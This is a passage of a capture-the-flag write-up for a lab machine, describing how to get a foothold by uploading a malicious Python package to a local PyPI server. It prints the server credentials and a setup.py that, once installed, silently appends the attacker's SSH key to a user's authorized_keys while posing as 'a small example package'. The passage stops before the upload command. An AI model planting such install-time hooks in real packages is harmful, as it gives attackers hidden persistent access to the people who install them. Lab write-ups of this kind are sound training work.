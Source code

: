We get this page. And if we try to see /packages we are prompted to an http authentication that doesn't scare us because we have the creds! But there's no package there... Surely enough there will be a way to exploit this situation... Luckily, we have it, but it is a little f'd up.

So... we have to create a pseudo python package to upload to our local server and make it execute a payload, to do so we'll need 2 files:

```
# .pypirc
[distutils]
index-servers = local

[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

 Containing our credentials and destination of our package. Then, we need (refer to [this example package](https://github.com/0x00-0x00/FakePip/blob/master/setup.py)):

```python
# setup.py
import setuptools

try:
    with open("/home/low/.ssh/authorized_keys", "a") as f:
        # Key generated with ssh-keygen -C "" -f ./key -t ed25519 just because it is shorter ;)
        f.write("\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA/UOG0a1dGeCtqLYA6zuCOq+pFqI8FRePH8hCJFEMLK")
        f.close()
except Exception as e:
    pass

setuptools.setup(
    name="lolz-package",
    version="90.0.0",
    author="Lolz",
    author_email="author@example.com",
    description="A small example package",
    long_description="",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
)
```

This will trigger the execution of the code in the box, making it write our ssh-key in the authorized_keys of the user. To upload the package, you can refer to [this article](https://realpython.com/pypi-publish-python-package/) and [this article](https://medium.com/nagoya-foundation/uploading-your-own-python-package-to-pypi-python-package-index-6b78e1c9e6d1). After all, even if it is almost deprecated, this one liner works just fine:
